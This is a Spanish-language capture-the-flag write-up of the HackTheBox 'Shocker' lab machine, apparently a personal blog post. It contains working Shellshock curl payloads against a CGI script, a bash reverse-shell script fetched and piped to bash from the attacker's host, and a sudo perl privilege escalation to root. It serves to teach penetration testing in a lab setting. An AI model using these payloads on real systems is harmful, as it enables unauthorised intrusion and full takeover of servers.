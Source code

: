 ```yaml
---
layout      : post
title       : "HackTheBox - Shocker"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108banner.png
category    : [ htb ]
tags        : [ shellshock, sudo, perl ]
---
```

Máquina Linux nivel fácil, nos dará un **shock** (?) al encontrarnos la vulnerabilidad **Shellshock** (muy linda) y lograr ejecutar comandos en el sistema. Después jugando con los permisos de usuario podremos obtener una sesión como **root** explotando el binario **Perl**.

![108shockerHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108shockerHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [mrb3n](https://www.hackthebox.eu/profile/2984).

HOLAAAAAAAAAAAA e.e

Bueno, será una ruta sencilla y acogedora :3 Nos encontraremos un servicio web el cual tiene el directorio `cgi-bin` y dentro un archivo `user.sh`, indagando veremos que podemos relacionar lo encontrado con una vulnerabilidad llamada **Shellshock**, jugando con ella lograremos ejecutar comandos en el sistema como el usuario **shelly**, lo usaremos para entablarnos una reverse Shell.

Estando dentro y validando los permisos que tenemos como **shelly** ante otros usuarios (`sudo -l`), veremos que podemos ejecutar el binario `/usr/bin/perl` como el usuario **root**, con la ayuda del repositorio [GTFOBins](https://gtfobins.github.io/) (e internet :P) lograremos obtener una (dos, tres, las que quieras) Shell como **root** en la máquina (:

#### Clasificación de la máquina

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo plasmar lo que hice.

...

¿Khe vamo hace'? 🤔

1. [Enumeración](#enumeracion).
2. [Explotación](#explotacion).
3. [Escalada de privilegios](#escalada-de-privilegios).

...

## Enumeración [#](#enumeracion) {#enumeracion}

Realizamos nuestro escaneo de puertos para saber que servicios está corriendo la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.56 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535                      |
| --open     | Solo los puertos que están abiertos          |
| -v         | Permite ver en consola lo que va encontrando |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/Writeups/master/HTB/Magic/images/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: initScan
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.80 scan initiated Thu Apr 22 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.56
   2   │ # Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
   3   │ Host: 10.10.10.56 ()    Status: Up
   4   │ Host: 10.10.10.56 ()    Ports: 80/open/tcp//http///, 2222/open/tcp//EtherNetIP-1///
   5   │ # Nmap done at Thu Apr 22 25:25:25 2021 -- 1 IP address (1 host up) scanned in 163.27 seconds
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Listos, tenemos:

| Puerto | Descripción |
| ------ | :---------- |
| 80     | **[HTTP](https://www.techopedia.com/definition/15709/port-80)**                         |
| 2222   | Por ahora no lo sabemos, pero podemos pensar en que pueda estar relacionado con **SSH** |

Ahora hagamos un escaneo de scripts y versiones, así tenemos profundizamos en cada puerto:

```bash
❭ nmap -p80,2222 -sC -sV 10.10.10.56 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: portScan
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.80 scan initiated Thu Apr 22 25:25:25 2021 as: nmap -p80,2222 -sC -sV -oN portScan 10.10.10.56
   2   │ Nmap scan report for 10.10.10.56
   3   │ Host is up (0.19s latency).
   4   │ 
   5   │ PORT     STATE SERVICE VERSION
   6   │ 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
   7   │ |_http-server-header: Apache/2.4.18 (Ubuntu)
   8   │ |_http-title: Site doesn't have a title (text/html).
   9   │ 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  10   │ | ssh-hostkey: 
  11   │ |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
  12   │ |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
  13   │ |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
  14   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  15   │ 
  16   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  17   │ # Nmap done at Thu Apr 22 25:25:25 2021 -- 1 IP address (1 host up) scanned in 17.76 seconds
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 80     | HTTP     | Apache httpd 2.4.18 |
| 2222   | [SSH](https://blog.desdelinux.net/configurar-ssh-por-otro-puerto-y-no-por-el-22/) | (Confirmamos) OpenSSH 7.2p2 |

¡Listo, a darle pues!

...

### Puerto 80 [⌖](#puerto-80) {#puerto-80}

![108page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108page80.png)

Jmm, nada interesante, validando el código fuente tampoco vemos nada, hagamos fuzzing a ver si hay algo escondido a la vista:

```bash
❭ dirsearch.py -u http://10.10.10.56/ -q
403 -  297B  - http://10.10.10.56/.ht_wsr.txt
403 -  300B  - http://10.10.10.56/.htaccess.bak1
403 -  300B  - http://10.10.10.56/.htaccess.orig
403 -  302B  - http://10.10.10.56/.htaccess.sample
403 -  300B  - http://10.10.10.56/.htaccess.save
403 -  298B  - http://10.10.10.56/.htaccessBAK
403 -  298B  - http://10.10.10.56/.htaccessOLD
403 -  301B  - http://10.10.10.56/.htaccess_extra 
403 -  299B  - http://10.10.10.56/.htaccessOLD2
403 -  300B  - http://10.10.10.56/.htaccess_orig
403 -  298B  - http://10.10.10.56/.htaccess_sc
403 -  290B  - http://10.10.10.56/.htm
403 -  291B  - http://10.10.10.56/.html
403 -  300B  - http://10.10.10.56/.htpasswd_test
403 -  296B  - http://10.10.10.56/.htpasswds
403 -  297B  - http://10.10.10.56/.httr-oauth
403 -  294B  - http://10.10.10.56/cgi-bin/
200 -  137B  - http://10.10.10.56/index.html
403 -  299B  - http://10.10.10.56/server-status
```

Nada relevante a la vista, pero profundizando en lo único que tenemos, vemos el directorio `cgi-bin/`, entendamos de que se trata:

> **CGI** (Common Gateway Interface) es un método por el cual un servidor web puede interactuar con programas externos de generación de contenido, a ellos nos referimos comúnmente como programas CGI o scripts CGI. Es el método más común y sencillo de mostrar contenido dinámico en su sitio web. [Apache - CGI](https://httpd.apache.org/docs/trunk/es/howto/cgi.html).

Entonces el servidor envía las solicitudes del cliente a un programa externo, el programa en cuestión puede estar escrito en cualquier lenguaje que sea soportado pro el servidor, que por lo general son lenguajes de scripting.

> El **CGI** es utilizado comúnmente para contadores, bases de datos, motores de búsqueda, formulários, generadores de email automático, foros de discusión, chats, comercio electrónico, rotadores y mapas de imágenes, juegos en línea y otros. Esta tecnología tiene la ventaja de correr en el servidor cuando el usuario lo solicita por lo que es dependiente del servidor y no de la computadora del usuario. [CGI Intro](http://www.maestrosdelweb.com/cgiintro/).

Bien, hablan de scripts y programas alojados por el recurso `cgi`, así que podemos probar un fuzz sobre el recurso...

Pero no encontramos nada, si recordamos nos hablaban de lenguajes de scripting, entonces podemos probar a crearnos un archivo con extensiones de lenguajes y volver a validar el fuzzeo:

> [Encontrar URL del cgi-bin](https://www.neoguias.com/como-saber-la-url-de-cgi-bin/) (vemos algunos lenguajes para tener en cuenta).

```bash
❭ cat extensions.txt 
───────┬──────────────────────────────────────
       │ File: extensions.txt
───────┼──────────────────────────────────────
   1   │ php
   2   │ sh
   3   │ bash
   4   │ cgi
   5   │ pl
   6   │ c
   7   │ ccp
   8   │ py
───────┴──────────────────────────────────────
```

Y ahora con `wfuzz`:

```bash
❭ wfuzz -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/common.txt -w extensions.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```

Donde el primer **FUZZ** hace referencia a cada linea del archivo `common.txt` y el segundo **FUZZ (FUZ2Z)** a cada linea del archivo `extensions.txt`:

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
Total requests: 37264

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
...
...
...
000034130:   200        7 L      17 W       118 Ch      "user - sh"
```

Perfecto, tenemos un archivo llamado `user.sh`, si lo visitamos desde la web nos lo descarga, su contenido es simplemente:

```bash
❭ cat user.sh 
───────┬─────────────────────────────────────────────────────────────────────
       │ File: user.sh
───────┼─────────────────────────────────────────────────────────────────────
   1   │ Content-Type: text/plain
   2   │ 
   3   │ Just an uptime test script
   4   │ 
   5   │  12:36:04 up  1:35,  0 users,  load average: 0.00, 0.01, 0.00
───────┴─────────────────────────────────────────────────────────────────────
```

Jmmm, pero ¿qué podemos hacer con esto? Haciendo una búsqueda sencilla en Google como "**cgi-bin exploit**" obtenemos un montón de respuestas hablando de una vulnerabilidad llamada **Shellshock**, profundizando...

#### Shellshock

Me gusto esta intro de [securityhacklabs](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit) para explicar **Apache** y **CGI**, así que me la robo :P

> Apache es un servidor web multiplataforma de código abierto desarrollado por la Apache Software Foundation. Es robusto con características tales como alojamiento virtual, esquemas de autenticación, SSL y TLS, mensajes de error personalizados y compatibilidad con múltiples lenguajes de programación. Apache también tiene un módulo llamado mod_cgi que maneja la ejecución de scripts de Common Gateway Interface (CGI). [Explotando Shellshock](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit).

Shellshock como su nombre nos spoilea, se basa en la Shell (en términos entendibles en la famosa **bash**), un intérprete que esta por lo general en todos los sistemas ***Unix**. Lo que hace la vulnerabilidad es aprovechar las variables de entorno para definir funciones y jugar a agregar comandos así la función ya se haya terminado de procesar :P

Pa leer: 

* [Shellshock, la grave vulnerabilidad en Bash](https://www.welivesecurity.com/la-es/2014/09/26/shellshock-grave-vulnerabilidad-bash/).
* [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271).
* [Shellshock - como explotarla en remoto](https://empresas.blogthinkbig.com/shellshock-como-se-podria-explotar-en/).
* [Exploit Bash Shellshock](https://nikhilh20.medium.com/exploit-bash-shellshock-part-1-ad1636acaf9e).

...

## Explotación [#](#explotacion) {#explotacion}

Entonces, podemos validar esta vulnerabilidad de manera sencilla mediante **cURL** probando cositas de [esta guía](https://book.hacktricks.xyz/pentesting/pentesting-web/cgi):


```bash
❭ curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh
```

Y nos responde:

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>
```

Podríamos pensar que no es vulnerable, pero leyendo más posts encontramos que si le agregamos más definiciones de `echo;` antes de lo que queremos ejecutar puede llegar a rular (servir):

* [Exploiting Shellshock (with extra **echo;**)](https://www.sevenlayers.com/index.php/125-exploiting-shellshock).

```bash
❭ curl -H 'User-Agent: () { :; }; echo; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh
```

Y responde:

```bash
VULNERABLE TO SHELLSHOCK

Content-Type: text/plain

Just an uptime test script

 13:25:00 up  2:23,  0 users,  load average: 0.00, 0.00, 0.00
```

Bien, probablemente tenemos ejecución de comandos, validemos el `id` del usuario que esté ejecutando el servicio web:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/id' http://10.10.10.56/cgi-bin/user.sh
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Perfectooooooooooooooooooooo 😯, confirmado. Ahora simplemente intentemos entablar una Reverse Shell ;)

Validamos que exista **cURL** en la máquina:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/which curl' http://10.10.10.56/cgi-bin/user.sh
/usr/bin/curl
```

Nos creamos un archivo que tenga los comandos que queramos ejecutar, para que cuando hagamos la petición desde la máquina a él le pasemos el binario `bash` al final y así interprete el contenido:

```bash
❭ cat rev.sh 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.15/4433 0>&1
```

Levantamos un server web:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y desde el Shellshock le indicamos:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/curl http://10.10.14.15:8000/rev.sh | /bin/bash' http://10.10.10.56/cgi-bin/user.sh
```

Y obtenemos:

![108bash_shellshock_shelly_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108bash_shellshock_shelly_revsh.png)

Una sesión como **shelly** :) Hagamos tratamiento de la TTY rápidamente (hay varias formas, a mí me gusta de la siguiente), así evitamos perder la consola si damos **CTRL + C** y además podemos movernos cómodamente entre comandos:

1. En la Shell escribimos: `script /dev/null -c bash`.
2. Ahora hacemos `CTRL + Z`, lo que enviara la Shell a un estado "en pausa" por así decirlo y nos llevara a nuestra terminal normalita.
3. Escribimos: `stty raw -echo; fg`.
4. Escribimos: `reset`.
5. Escribimos: `xterm`.
6. **Ya tendríamos nuestra Shell interactiva, pero arreglemos unos valores y el tamaño de la terminal:**
7. Escribimos: `export TERM=xterm`.
8. Escribimos: `export SHELL=bash`.
9. Abrimos una nueva terminal de tamaño completo y escribimos `stty -a`, tomamos esos valores y en la Shell de la máquina escribimos: `stty rows <rows> columns <columns>`, validamos que el tamaño esté bien ejecutando `nano`. (Podrías validar el `nano` también antes de hacer esto, así vez el cambio).

Sigamos...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si vemos que [permisos](https://unix.stackexchange.com/questions/596542/what-is-the-use-of-sudo-l-command) tiene **shelly** para ejecutar comandos en el sistema como otros usuarios encontramos:

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Puede ejecutar el binario `/usr/bin/perl` como el usuario **root** sin necesidad de ingresar contraseña, esto mediante [sudo](https://www.linuxtotal.com.mx/index.php?cont=info_admon_014).

Si vamos al [repo (GTFOBins)](https://gtfobins.github.io/gtfobins/perl/#sudo) que tiene un montoooooooon de info sobre como explotar vaaarios binarios, nos encontramos con:

![108google_gtfobins_sudoPerl](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108google_gtfobins_sudoPerl.png)

Bien, sencillamente pasándole esa instrucción deberíamos obtener una Shell como el usuario (en este caso) **root**, probemos:

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

![108bash_exploit_sudoPerl_rootSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108bash_exploit_sudoPerl_rootSH.png)

Perfectoooo, ya seriamos **root** y podríamos hacer lo que quisiéramos

**(Claramente puedes jugar con [reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl) de** perl **y demás cositas para entablar una sesión como** root **, es cuestión de jugar y no quedarse solo con una opción.)**

Solo nos quedaría ver las flags...

![108flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108flags.png)

...

Super interesante la vulnerabilidad del **Shellshock**, ya siempre que encontremos un directorio `cgi-bin/` sabemos que debemos buscar posiblemente algo relacionado con ella y además aprendimos que puede parecer que ha fallado, pero simplemente deberíamos agregarle la sentencia `echo;` e ir probando :P

Y weno, como siempre muchísimas gracias por pasarse yyyyyyyyyyyyy a seguir rompiendo todo!! ❤️